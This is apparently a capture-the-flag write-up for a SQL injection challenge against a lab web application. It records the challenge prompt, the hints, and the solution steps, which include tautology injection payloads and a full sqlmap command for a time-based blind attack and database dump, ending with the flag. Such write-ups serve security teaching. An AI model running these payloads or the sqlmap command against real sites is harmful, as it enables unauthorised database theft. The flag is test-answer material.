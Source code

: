 # The SQL Always Sucks #

**Category:**	Web Security  
**Points:**	150

**Prompt:** 
* We discovered an application in our environment that is apparently under development. Please identify the risk it poses. http://challenge.acictf.com:28986
* Note: Solutions to this problem are known to be sensitive to connection latency. If your solution is working but very slowly, you may be able to speed up the process by running it from the competition's shell server.

**Hints:** 
* It's sometimes useful to know what kind of database is behind a webapp before trying to attack it. It can save you time and really narrow your efforts. I wonder if the developers accidentally left any clues laying around.
* SQL injection attacks don't always result in you getting raw database contents sent directly back to you. Sometimes it is all about patience and timing.
* Some attacks just are not practical to do by hand because they require precision and lots of repetition. Thankfully, tools like sqlmap can automate much of this for you. It even comes pre-installed on our shell server!
* Many tools use unique user-agent strings by default. If you notice that curl or sqlmap don't appear to be working properly, you may need to look into whether you can configure them to "impersonate" something else.


**Solution:**
* Try simple injection: 
```
' or 1=1 -- 
```
* ![solution1](./TheSQLAlwaysSucks1.png)
* Source code gives a hint
    * ![solution2](./TheSQLAlwaysSucks2.png)
* So they are using sqlite and Brantly popped as a users lastname
```
any' or 1=1 order by 1;#
```
* ![solution3](./TheSQLAlwaysSucks3.png)
* Try sqlmap
    * First run didn't work, but it gave a warning to try running as random agent
```
sqlmap -u http://challenge.acictf.com:28986/?firstname= --dbms=sqlite --crawl=1 --random-agent --level=5 --risk=3
```
* It identified that it's vulnerable to time-based attacks
* Rerun with --dump to dump the database
* After a few hours:
    * ACI{59df47a3243d2f239ea878a7266}



